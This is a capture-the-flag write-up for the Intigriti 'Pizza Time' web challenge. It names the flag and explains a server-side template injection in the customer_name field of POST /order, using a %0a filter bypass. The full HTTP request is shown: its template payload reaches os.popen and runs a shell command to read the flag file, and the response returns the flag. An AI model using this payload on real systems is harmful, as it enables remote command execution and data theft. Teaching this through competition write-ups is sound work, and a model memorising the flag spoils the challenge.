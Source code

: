 # Pizza Time [52 Solves]

## Description

> It's pizza time!! 🍕
>
> Author: kavigihan
>
> <https://pizzatime.ctf.intigriti.io> || <https://pizzatime2.ctf.intigriti.io>

## Flag

INTIGRITI{d1d_50m3b0dy_54y_p1zz4_71m3}

## Solution

- SSTI in customer_name parameter in [POST] /order endpoint.
- Bypass special character filter by using `%0a`

request:

```text
POST /order HTTP/2
Host: pizzatime.ctf.intigriti.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 181

customer_name=%0a{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat$IFS/flag.txt').read()}}&pizza_name=Margherita&pizza_size=Small&topping=Mushrooms&sauce=Marinara
```

response:

```text
HTTP/2 200 OK
Date: Sat, 18 Nov 2023 04:54:29 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 135
Strict-Transport-Security: max-age=15724800; includeSubDomains

 
            <p>Thank you, 
INTIGRITI{d1d_50m3b0dy_54y_p1zz4_71m3}! Your order has been placed. Final price is $9.72 </p>
```
